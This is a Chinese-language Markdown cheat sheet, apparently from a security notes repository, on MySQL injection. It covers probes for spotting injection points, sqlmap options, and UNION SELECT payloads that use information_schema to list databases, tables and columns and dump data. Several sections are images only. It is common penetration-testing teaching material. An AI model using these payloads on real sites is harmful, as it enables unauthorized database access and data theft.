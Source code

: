 # MySQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;MySQL数据库(version>=5.0)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 注入函数
![](/assets/49A439B31D3656FE1266C2809C616748.png)
![](/assets/E33220D060B048EAA19A59928F1FFA64.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 关于内置库
![](/assets/618D4E32E84852266ED812F5595453FF.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 样例代码
![](/assets/83A2168FAA2CDFB87AF8716FC9F92A3B.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 注入流程
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.注入点识别:
```
    手工识别:  '   
              [数字型] and 1=1 / and 1=2    
              [字符型] and '1'='1 / and '1'='2
              [易过滤] and 1 like 1 / and 1 like 2
                      or 1=1 / or 1=2,注意参数要提前设置成错误参数
                  
    工具识别:  sqlmap -m filename(filename中保留检测目标)
              sqlmap -r filename(filename中为网站请求数据)
              sqlmap --crawl(sqlmap对目标网站进行爬去，然后依次测试)
              Burpsuite+SQLMap
   
    其他技巧:  出现注入点也可能在登录、搜索、留言一切产生数据交互的地方
              在参数后键入 * ,表明只对这个参数进行测试(BP中)
                
```
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.信息收集:
![](/assets/B37DE04BFA39F1E89C6D4C24BE781008.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3.内容获取: 注入语句末尾添加 %23 或者 --+ 进行注释
```sql 
   字段长度: order by
   显示字段: union select null,null,强制报错显示字段
   查库信息: union select database(),version()
   查库: union select group_concat(schema_name) from information_schema.schemata
   查表: union select group_concat(table_name) from information_schema.tables where table_schema=database()
   查列: union select group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
   查数据: union select group_concat(null) from 库名.表名
   
   注意: 1.表名加引号，推荐改为十六进制
```







